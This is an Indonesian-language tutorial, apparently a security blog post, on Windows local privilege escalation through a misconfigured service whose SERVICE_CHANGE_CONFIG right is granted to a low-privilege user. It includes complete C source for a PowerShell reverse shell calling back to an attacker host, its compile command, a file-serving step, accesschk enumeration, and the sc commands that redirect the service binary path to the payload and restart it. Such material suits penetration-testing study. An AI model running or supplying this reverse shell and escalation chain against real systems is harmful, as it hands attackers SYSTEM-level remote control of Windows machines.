







Pada kesempatan kali ini, kita akan mendemokan salah satu serangan Local Privilege Escalation pada Windows System. Skenario ini dapat dilakukan ketika ada sebuah Service yang diberikan "Permission" yang berlebihan, sehingga pengguna biasa (low user) dapat melakukan konfigurasi ulang pada Service tersebut.

Kalian bisa bayangkan apa jadinya jika ada User yang dapat mengubah arah `BINARY PATH` pada Local Service di Windows?



Hal ini bisa terjadi karena terdapat miskonfigurasi pada Service, yang di mana izin `SERVICE_CHANGE_CONFIG` itu diterapkan pada User yang bukan seharusnya.

# Preparation

Sebelum dilanjutkan, kita perlu menyiapkan terkait:

1. accesschk.exe
2. exploit.exe

Untuk Tool `accesschk.exe` kita bisa mengunduhnya secara resmi melalui link [microsoft.com](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) dan `exploit.exe` dapat kita **Compile** secara mandiri (tanpa harus menggunakan **msfvenom**) dengan cara mengikuti langkah-langkah di bawah ini.

### reverse-shell.c

```c
#include <windows.h>
#include <stdio.h>

int main(){ 
    system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<attacker host>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
    return 0; 
}
```

**Note:** Ubah bagian `<attacker host>`.

### Compile

Setelah itu kita lakukan kompilasi dari kode C menjadi sebuah file `.exe`.

```
x86_64-w64-mingw32-gcc reverse-shell.c -o exploit.exe
```



### Additional Note

Sebagai catatan, di sini saya memindahkan file `exploit.exe` menggunakan HTTP Web Server dari Linux, untuk dipanggil via Windows.

```
python3 -m http.server 8000
```



<h1 class="header-group">Proof of Concept</h1>

# Enumeration

Ok! Pertama-tama kita langsung gunakan tool `accesschk.exe` untuk melihat Service mana saja yang dapat dimodifikasi oleh User yang kita gunakan.

```
.\accesschk.exe /accepteula -uwcv %username% *
```



Dari output **accesschk.exe** ini, kita mendapatkan sebuah Service yang bernama `daclsvc`, yang perlu kita perhatikan di sini yaitu Attribute `RW` dan Attribute `SERVICE_CHANGE_CONFIG`. Dengan ini dapat disimpulkan bahwa kita (sebagai low user) memiliki izin untuk mengubah konfigurasinya.

# Exploit

Setelah kita mengetahui bahwa kita mengantongi izin `SERVICE_CHANGE_CONFIG`, maka hal yang pertama kita coba yaitu memodifikasi `binpath` untuk memasukkan **exploit.exe** ke dalam Service-nya.

```
sc config "<service name>" binpath="C:\<exploit file>"
```



Jika berhasil kita akan mendapatkan sebuah pesan **SUCCESS**. Oh iya! Sebelum dilanjutkan kita harus mempersiapkan Listener pada Attack Host untuk menangkap koneksi Reverse Shell-nya. Jika sudah maka langkah selanjutnya yaitu memberhentikan Service-nya dan memulainya kembali.

```
sc stop "<service name>"
sc start "<service name>"
```



